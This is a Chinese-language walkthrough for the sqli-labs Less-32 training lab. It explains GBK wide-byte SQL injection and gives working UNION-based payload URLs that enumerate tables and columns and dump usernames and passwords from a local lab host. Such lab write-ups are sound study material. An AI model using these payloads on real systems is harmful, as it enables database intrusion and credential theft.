







# Less - 32

---

# 通关教程

---

## 一、判断闭合

---

```http
http://192.168.225.132/sqli-labs/Less-32/?id=1'
```

​​

这里我们发现我们输入的’直接被转义成\了，在一般情况下，此处是不存在SQL注入漏洞的，不过有一个特例，就是当数据库的编码为GBK时，可以使用宽字节注入，宽字节的格式是在地址后先加一个%df，再加单引号，因为反斜杠的编码为%5c，而在GBK编码中，%df%5c是繁体字“連”，所以这时，单引号成功逃逸，报出MySQL数据库的错误。

​​

发现确实使用了GBK编码，所以这里我们可以在单引号前面输入%df让单引号成功逃逸

​​

---

## 2、查看当前数据库

---

```http
http://192.168.225.132/sqli-labs/Less-32/?id=-1%df' union select 1,2,database()--+
```

​​

---

## 3、查看security库下的所有表

---

```http
http://192.168.225.132/sqli-labs/Less-32/?id=-1%df' union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema=database())--+
```

​​

---

## 4、查看users表下的所有字段

---

```http
http://192.168.225.132/sqli-labs/Less-32/?id=-1%df' union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name=0x7573657273)--+
```

​​

---

## 5、查看username,password字段下的所有值

---

```http
http://192.168.225.132/sqli-labs/Less-32/?id=-1%df' union select 1,2,(select group_concat(username,password) from security.users)--+
```

​​
